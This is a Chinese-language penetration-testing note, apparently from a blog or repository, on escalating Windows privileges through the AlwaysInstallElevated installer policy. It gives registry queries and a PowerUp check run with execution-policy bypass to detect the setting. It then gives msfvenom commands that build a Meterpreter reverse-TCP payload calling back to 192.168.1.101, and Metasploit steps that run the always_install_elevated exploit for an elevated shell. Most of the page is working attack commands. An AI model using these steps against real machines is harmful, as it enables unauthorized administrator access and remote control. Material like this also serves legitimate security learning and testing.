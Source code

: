 ```yaml
---
title: 总是以管理员权限安装的提权
categories:
- windows
tags:
- windows
---
```

总是以管理员权限安装的提权
===
参考资料：
[https://hacknpentest.com/windows-privilege-escalation-via-alwaysinstallelevated-technique/](https://hacknpentest.com/windows-privilege-escalation-via-alwaysinstallelevated-technique/)
视频[地址](https://www.bilibili.com/video/av89909371/)
作者注：跟linux中的suid权限有点像，某种应用程序，普通用户可以运行，并且程序有着管理员权限。

## 发现漏洞
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

AlwaysInstallElevated是一项功能，可为Windows计算机上的所有用户（特别是低特权用户）提供运行任何具有提升特权的MSI文件的功能。 MSI是基于Microsoft的安装程序软件包文件格式，用于安装，存储和删除程序。

注意：此选项等效于授予完整的管理权限，这可能会带来巨大的安全风险。 Microsoft强烈建议不要使用此设置。

默认情况下，此选项是关闭的，要创建此特权升级入口点，我们需要将其打开，我们将在此博客中进一步介绍。

由于该功能允许所有用户以提升的权限运行msi文件，因此低特权用户确实可以运行恶意的msi文件，并且可以生成shell或将新创建的用户添加到Administrator组。

## 使用powershell脚本发现漏洞
```
powershell -nop -ep bypass
Import-Module C:\Users\user\Desktop\PowerUp.ps1

Get-RegistryAlwaysInstallElevated
```
## 生成载荷
```获得一个普通权限的shell
handler -H 192.168.1.101 -P 44555 -p windows/x64/meterpreter/reverse_tcp

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=44555 -f exe -o payload.exe
```
## 利用漏洞

```提权
use exploit/windows/local/always_install_elevated
show options
set session 1
set payload windows/x64/meterpreter/reverse_tcp
set lport 3344
set lhost 192.168.1.101
run
```